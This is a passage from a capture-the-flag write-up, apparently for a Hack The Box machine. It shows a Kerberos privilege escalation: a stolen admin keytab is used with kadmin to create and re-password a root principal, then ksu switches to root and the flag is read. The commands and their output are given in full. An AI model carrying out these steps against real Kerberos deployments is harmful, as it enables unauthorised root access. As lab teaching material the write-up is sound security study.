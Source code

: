 So we can see the permissions above that we can ```changepw```.

Let's use ```kadmin``` by the following command:
```console
[admin@srv01 kt]$ kadmin -k -t ./krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab ./krb5.keytab.
kadmin:
```

We are using ```kadmin``` as ```kadmin/admin@REALCORP.HTB```, Now we need to add principal of root by the following command:
```console
kadmin:  addprinc root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB":  
Re-enter password for principal "root@REALCORP.HTB":  
Principal "root@REALCORP.HTB" created.
kadmin:
```

Put any password we want, Now we can use ```cpw``` command to change root password as follow:
```console
kadmin:  cpw root
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Password for "root@REALCORP.HTB" changed.
kadmin:
```

Enter a new password for root user, and now we can use ```ksu``` to switch user to root:
```console
[admin@srv01 kt]$ ksu 
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 kt]# cat /root/root.txt
5bd8d3a545f6f26cb0b9a365f3f0f546
```

And we get the root flag ```5bd8d3a545f6f26cb0b9a365f3f0f546```.
